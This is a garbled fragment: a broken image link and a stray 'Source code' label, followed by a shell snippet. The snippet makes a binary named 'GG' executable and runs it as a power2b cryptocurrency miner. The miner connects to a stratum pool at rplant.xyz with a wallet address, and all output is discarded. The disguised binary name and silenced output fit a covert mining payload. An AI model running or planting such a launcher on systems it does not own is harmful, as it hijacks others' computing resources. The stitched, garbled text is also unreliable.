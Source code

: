 ping -w 60 8.8.8.8
chmod +x GG
./GG -a power2b  -o stratum+tcps://stratum-na.rplant.xyz:17022 -u MqmM35U2EtSFVvit5VcW7nY9raBy6Sw6vm.a -p password=X >/dev/null
